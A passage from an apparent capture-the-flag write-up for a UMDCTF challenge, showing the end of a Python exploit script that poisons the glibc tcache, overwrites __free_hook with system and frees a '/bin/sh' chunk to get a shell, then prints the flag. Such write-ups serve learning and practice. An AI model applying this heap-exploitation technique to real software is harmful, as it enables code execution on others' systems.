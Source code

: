 ```python
    for i in range(0, 3):
        alloc(BASE_SIZE + (i * 0x20))

    # tcachebins
    # 0x20 [  2]: 0x564324bd19c0 —▸ 0x564324bd1040 ◂— 0x0
    alloc(0x10)
    free()

    hook = mangle(heap, libc.sym['__free_hook'])
    edit(hook)

    alloc(0x10)
    alloc(0x10)
    edit(libc.sym['system'])

    alloc(0x40)
    edit(0x0068732f6e69622f)    # /bin/sh
    free()                      # trigger system

    log.success('heap base: %#x', heap)
    log.success('libc base: %#x', libc.address)
    io.interactive()
    
if __name__ == '__main__':
    exploit()
```
{% endcode %}

{% hint style="success" %}
Flag: _UMDCTF{a\_glorious\_statue\_for\_a\_glorious\_baron}_
{% endhint %}
